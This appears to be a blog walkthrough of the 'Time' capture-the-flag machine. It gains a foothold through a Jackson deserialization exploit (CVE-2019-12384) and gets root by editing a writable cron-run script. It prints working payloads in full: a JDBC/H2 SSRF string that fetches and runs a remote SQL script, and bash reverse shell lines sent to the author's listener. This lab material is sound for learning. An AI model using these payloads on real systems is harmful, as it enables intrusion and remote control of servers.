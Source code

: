 ```yaml
---
layout: post
title: Time - Walkthrough
---
```


Time was all about research. The enumeration part is pretty straight forward, but the real challenge is to be able to filter results properly. Once you get the right exploit, it's easy to get the foothold and root part is a classic of privesc. I enjoyed that box !

## Recon
As usual, I start with a quick Nmap followed by a full scan with the default script (-C) and the -V tag to get more info about the services.

{% highlight sh %}
sudo nmap time && sudo nmap -sCV -p- time -oN nmap
{% endhighlight %}

{% highlight text %}
# Nmap 7.91 scan initiated Mon Oct 26 15:12:43 2020 as: nmap -sCV -oN nmap -p- time
Nmap scan report for time (10.10.10.214)
Host is up (0.097s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 26 15:18:34 2020 -- 1 IP address (1 host up) scanned in 350.85 seconds

{% endhighlight %}

We only have SSH and HTTP open. Also I note the apache version `2.4.41`. 

By having a look a the website, I can see that, as the title says, it is some kind of <strong><cite>JSON</cite></strong> parser. 
There are 2 main functions:

1. Beautify
2. Validate

If I take some json strings and try the beautify function, everything seems to work fine. But, if I try the `validate` function, I get a error message. 

>Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object

Interesting ! We have some valuable information there. Now we know that the back-end uses 
<strong><cite>Java</cite></strong> to validate the <strong><cite>JSON</cite></strong> string. Moreover, it uses the [jackson](https://github.com/FasterXML/jackson) library to parse the data. So, I guess I can try googling that and see if I can find some juicy exploit out there.

## Foothold / User

There are quite a lot of great articles on the net about <strong><cite>Jackson exploitation</cite></strong>. To narrow down my results, I did a quick search on the `Apache version 2.4.41`. That specific version has been released around mid 2019 so I think that I can filter my results on google with that specific year. 
Now it is way easier to find out what exploit should I use and I've found a great [article](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html) about deserialization in Jackson library. 

>  When Jackson deserializes ch.qos.logback.core.db.DriverManagerConnectionSource, this class can be abused to instantiate a JDBC connection. JDBC stands for (J)ava (D)ata(b)ase (C)onnectivity. JDBC is a Java API to connect and execute a query with the database and it is a part of JavaSE (Java Standard Edition). Moreover, JDBC uses an automatic string to class mapping, as such it is a perfect target to load and execute even more “gadgets” inside the chain.

The idea here is to create a SSRF attack to force the server to execute a request on our machine and execute a malicious payload.
Because the vulnerability uses JDBC, we need to craft a payload in sql format. 

[CVE-2019-12384](http://www.hackdig.com/09/hack-137165.htm)

I'm gonna make a quick test by setting up a listener on my machine and send a payload via curl. 

{% highlight sh %}
nc -lvnp 2222
{% endhighlight %}

{% highlight text %}
curl -X POST http://time -d 'mode=2&data=["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:tcp://10.10.14.10:2222/"}]'
{% endhighlight %}

We got an answer ! So we can control the request that is made be the remote server. 

{% highlight text %}
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::2222
Ncat: Listening on 0.0.0.0:2222
Ncat: Connection from 10.10.10.214.
Ncat: Connection from 10.10.10.214:40774.
	jdbc:h2:tcp://10.10.14.10:2222/����^C
{% endhighlight %}

Now all we need to do is to ask the server to request our payload and execute it. 

1. Create the sql payload as seen in the POC and save it as `exp.sql`.

>CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
>        String[] command = {"bash", "-c", cmd};
>        java.util.Scanner s = new >java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A">);
>        return s.hasNext() ? s.next() : "";  }
>$$;
>CALL SHELLEXEC('bash -i >& /dev/tcp/192.168.136.129/7777 0>&1')

2. Set up a python server

{% highlight sh %}
sudo python -m http.server 80
{% endhighlight %}

3. Set up a listener 
{% highlight sh %}
nc -lvnp 2222
{% endhighlight %}

4. Send the payload to the target machine. 

- First I url encoded my payload
> ["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.10/exp.sql'"}]

To

> %5B%22ch.qos.logback.core.db.DriverManagerConnectionSource%22%2C+%7B%22url%22%3A%22jdbc%3Ah2%3Amem%3A%3BTRACE_LEVEL_SYSTEM_OUT%3D3%3BINIT%3DRUNSCRIPT+FROM+%27http%3A%2F%2F10.10.14.10%2Fexp.sql%27%22%7D%5D

Then send it !
{% highlight text %}
curl -X POST http://time -d 'mode=2&data=%5B%22ch.qos.logback.core.db.DriverManagerConnectionSource%22%2C+%7B%22url%22%3A%22jdbc%3Ah2%3Amem%3A%3BTRACE_LEVEL_SYSTEM_OUT%3D3%3BINIT%3DRUNSCRIPT+FROM+%27http%3A%2F%2F10.10.14.10%2Fexp.sql%27%22%7D%5D'
{% endhighlight %}



Voila ! We have a foothold.

uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)

The `user.txt` is inside Pericles home directory. 

## Root

I made a bit of enumeration but I didn't find anything useful. What I like to do is monitoring the processes on the box using <strong><cite>pspy64</cite></strong>. So, I uploaded and executed it on the box. 
I've directly seen that a shell script is invoked by the root user every 10 seconds. 

{% highlight text %}
2020/12/01 13:36:31 CMD: UID=0    PID=4100   | /bin/bash /usr/bin/timer_backup.sh 
2020/12/01 13:36:31 CMD: UID=0    PID=4099   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4098   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4097   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4096   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4095   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4094   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4093   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4092   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4107   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4106   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4105   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4104   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4103   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4108   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:32 CMD: UID=0    PID=4109   | /bin/bash /usr/bin/timer_backup.sh
{% endhighlight %}

Let's check the permissions on that file. 

{% highlight sh %}
ls -ld /usr/bin/timer_backup.sh
{% endhighlight %}
{% highlight text %}
rwxrw-rw- 1 pericles pericles 88 Dec  1 13:35 /usr/bin/timer_backup.sh
{% endhighlight %}

We have write permissions so, I can just modify that file by adding a bash command to get a shell. 

{% highlight sh %}
echo 'bash -i >& /dev/tcp/10.10.14.10/3333 0>&1' >> /usr/bin/timer_backup/sh
{% endhighlight %}

Then, set up a new listener on my local machine. 

{% highlight sh %}
nc -lvnp 3333
{% endhighlight %}

And we have a root shell. 

{% highlight sh %}
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

<strong>Rooted ;)</strong>
